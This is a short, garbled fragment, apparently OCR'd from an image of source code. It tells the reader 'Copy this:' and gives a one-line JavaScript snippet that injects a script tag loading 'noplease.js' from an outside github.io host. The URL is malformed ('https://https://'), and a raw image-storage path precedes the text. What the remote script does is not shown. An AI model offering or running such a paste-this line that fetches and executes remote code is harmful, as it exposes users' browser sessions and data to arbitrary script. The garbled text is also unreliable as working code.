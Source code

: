 # Here is what you can do.

# Copy this:  x=document.createElement("script");x.src="https://https://pingurepository.github.io/noplease.js"; document.head.appendChild(x); 
